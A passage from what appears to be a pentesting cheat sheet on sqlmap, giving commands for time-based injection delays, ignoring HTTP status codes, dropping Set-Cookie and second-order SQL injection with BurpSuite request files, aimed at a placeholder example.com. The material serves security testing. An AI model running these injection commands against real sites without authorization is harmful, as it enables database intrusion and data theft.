 We can sleep for each injection.

```sh
# --time-sec 2: Sleep 2 seconds.
sqlmap -u "https://example.com/?q=test" --time-sec 2
```

<br />

### Ignore HTTP response code

We can ignore specific HTTP response (status) code.

```sh
# Ignore 401 (Unauthorized)
sqlmap -u "https://example.com/?q=test" --ignore-code 401

# Ignore 500 (Internal Server Error)
sqlmap -u "https://example.com/?q=test" --ignore-code 500
```

<br />

### Drop Set-Cookie

We can drop **`Set-Cookie`** from HTTP response headers.

```sh
sqlmap -u "https://example.com/?q=test" --drop-set-cookie
```

<br /><br />

## Second Order Attack

Reference: [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap)

If the SQL injection affects another URL, we want to customize the second URL.

<br />

### Method 1. Simply adding the second request

We can add **`second-url`** or **`second-req`** flag in **`sqlmap`** command.  
Note that each request file (e.g. `req1.txt`, `req2.txt`) is downloaded by clicking **"save item"** in each request in BurpSuite.

```bash
# -p: Specify the parameter where payload will be put
sqlmap -u "https://example.com/profile/change" -p email  --second-url "https://example.com/dashboard"
sqlmap -r req1.txt -p email --second-req req2.txt
```

<br />
